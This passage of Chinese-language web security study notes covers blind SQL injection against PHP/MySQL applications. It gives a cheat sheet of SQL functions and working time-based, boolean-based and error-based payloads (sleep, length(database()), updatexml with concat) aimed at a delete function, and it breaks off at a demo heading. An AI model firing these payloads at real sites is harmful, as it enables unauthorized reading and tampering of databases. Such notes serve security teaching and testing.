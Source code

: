 #### 演示1

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/4404.png)

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/4405.png)

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/4406.png)

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/4407.png)

#### 更多

[12种报错注入+万能语句 - 简书](https://www.jianshu.com/p/bc35f8dd4f7c)，需要注意的是数据库版本问题，不一定全部都适用。

```sql
like 'ro%'            #判断ro或ro...是否成立
regexp '^xiaodi[a-z]' #匹配xiaodi及xiaodi...等
if(条件,5,0)          #条件成立 返回5 反之 返回0
sleep(5)              #SQL语句延时执行5秒
mid(a,b,c)            #从位置b开始，截取a字符串的c位
substr(a,b,c)         #从位置b开始，截取字符串a的c长度
left(database(),1)，database() #left(a,b)从左侧截取a的前b位
length(database())=8  #判断数据库database()名的长度
ord=ascii ascii(x)=97 #判断x的ascii码是否等于97
```

## PHP—MYSQL—注入条件-数据回显&错误处理

PHP开发项目-输出结果&开启报错

1. 基于延时：**（报错和回显都不需要）**

   and if(1=1,sleep(5),0)

2. 基于布尔：有数据库输出判断标准盲注可用布尔盲注**（需要回显）**

   and length(database())=6

3. 基于报错：有数据库报错处理判断标准**（加入报错处理可利用报错盲注）**

   and updatexml(1,concat(0x7e,(SELECT version()),0x7e),1)

测试delete注入：**（有无回显，有无报错）**

删除（延迟）：1 and if(1=1,sleep(5),0)

删除（布尔）：3  and length(database())=6（无回显，无法判断注入）

删除（报错）：4 and updatexml(1,concat(0x7e,(SELECT version()),0x7e),1)

### 演示案例

news.html与news.php：

#### 尝试对删除功能进行注入
